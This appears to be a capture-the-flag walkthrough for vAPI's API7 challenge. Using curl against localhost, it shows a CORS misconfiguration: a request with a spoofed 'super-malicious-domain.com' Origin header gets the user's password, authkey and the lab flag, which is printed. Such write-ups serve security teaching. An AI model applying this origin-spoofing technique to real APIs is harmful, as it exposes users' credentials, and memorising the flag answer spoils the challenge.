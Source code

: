 > Hey , its an API right? so we ARE expecting Cross Origin Requests . We just hope it works fine.

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
```

# Create User
## POST /vapi/api7/user

Create user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"testuser\",\x0d\x0a    \"password\":\"testpassword\"\x0d\x0a}' \
    $'http://localhost/vapi/api7/user'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 16:22:12 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 16:22:12 GMT
Content-Type: application/json

{"username":"testuser","password":"testpassword","id":2}
```

As specified in the Postman Collection, the test script to be executed for the API7 Create User endpoint is used to derive the token (Authorization-Token) by parsing the request JSON data, taking the values of the "username" and "password" key respectively with a colon between the two values, encoding the string in base64 and updates it in the Postman Environment as api7_auth.
```js
var reqData = JSON.parse(request.data);
var api7_username=reqData.username;
var api7_password=reqData.password;
var api7_auth=btoa(api7_username+":"+api7_password);
console.log("API 7 Auth : "+api7_auth);
postman.setEnvironmentVariable("api7_auth",api7_auth);
```

Manually derive the authorization token
```bash
echo -n "testuser:testpassword" | base64
```
```
dGVzdHVzZXI6dGVzdHBhc3N3b3Jk
```
- We will need the Authorization Token for the "User Login" endpoint

# User Login
## GET /vapi/api7/user/login

Log in with the newly created user
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXI6dGVzdHBhc3N3b3Jk' -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:32:31 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=221532f550b93d7ea23c8a895879c99b; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:32:31 GMT
Content-Type: application/json

{"success":"true","msg":"User logged in"} 
```
- Observe that the server gives us a Cookie for a PHP Session ID with a `Set-Cookie` HTTP response header

Cookie
```
PHPSESSID=221532f550b93d7ea23c8a895879c99b;
```
- We will need the PHP Session ID Cookie for the "Get Key" endpoint

# Get Key
## GET /vapi/api7/user/key

Get the user key for the newly created user
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    -b $'PHPSESSID=221532f550b93d7ea23c8a895879c99b' \
    $'http://localhost/vapi/api7/user/key'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:37:54 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:37:54 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

{"id":2,"username":"testuser","password":"testpassword","authkey":"8715a2ddefcf66d851636673949e0de88039da78540725fb94757434e3641643"}
```
- Observe that the HTTP header `Access-Control-Allow-Origin` has a value of `*`
	- This means that any domain is allowed to access this API endpoint, which is a CORS security risk.

Access the API as if it was requested from another domain with the HTTP `Origin` header.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' -H $'Origin: super-malicious-domain.com' \
    -b $'PHPSESSID=221532f550b93d7ea23c8a895879c99b' \
    $'http://localhost/vapi/api7/user/key'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:47:27 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:47:27 GMT
Content-Type: application/json
Access-Control-Allow-Origin: super-malicious-domain.com
Access-Control-Allow-Credentials: true

{"flag":"flag{api7_e71b65071645e24ed50a}","user":{"id":2,"username":"testuser","password":"testpassword","authkey":"8715a2ddefcf66d851636673949e0de88039da78540725fb94757434e3641643"}}
```

API7 Flag
```
flag{api7_e71b65071645e24ed50a}
```

# Additional Information

# User Logout
## GET /vapi/api7/user/logout

Seems like we do not need to specify any cookie or authentication for this user logout endpoint, showing more misconfigurations.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/logout'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:41:17 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=8b8988055ed48a163de0555b351884e3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:41:17 GMT
Content-Type: application/json

{"success":"true","msg":"User logged out"}
```


```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/logout'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:41:29 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=aacd39bf4bdc8f3959258d3e83077c71; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:41:29 GMT
Content-Type: application/json

{"success":"true","msg":"User logged out"}
```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/logout'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:41:32 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=fa59a46abb4729141976c22dbb8f17de; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:41:32 GMT
Content-Type: application/json

{"success":"true","msg":"User logged out"}
```

References:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie
https://owasp.org/API-Security/editions/2019/en/0xa7-security-misconfiguration/
https://owasp.org/API-Security/editions/2023/en/0xa8-security-misconfiguration/